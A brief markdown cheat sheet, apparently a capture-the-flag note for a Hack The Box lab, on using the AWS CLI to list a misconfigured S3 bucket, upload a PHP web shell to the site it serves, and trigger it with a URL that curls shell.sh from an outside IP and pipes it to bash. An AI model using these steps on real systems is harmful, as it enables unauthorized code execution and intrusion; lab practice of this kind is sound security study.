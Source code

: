 ```yaml
---
description: Amazon Web Services.
---
```


# AWS

```bash
sudo apt install awscli
```

```bash
aws configure
```

**To list the s3 buckets available.**

```bash
aws s3 ls --endpoint=<URL with http>
```

To upload files into website:

```bash
aws s3 cp shell.php --endpoint=http://s3.thetoppers.htb/ s3://thetoppers.htb
```

For space use + in URL

```url
http://thetoppers.htb/shell.php?cmd=curl%2010.10.16.17:8080/shell.sh|bash
```

curl -> to get that file\
\| -> how to excute that file
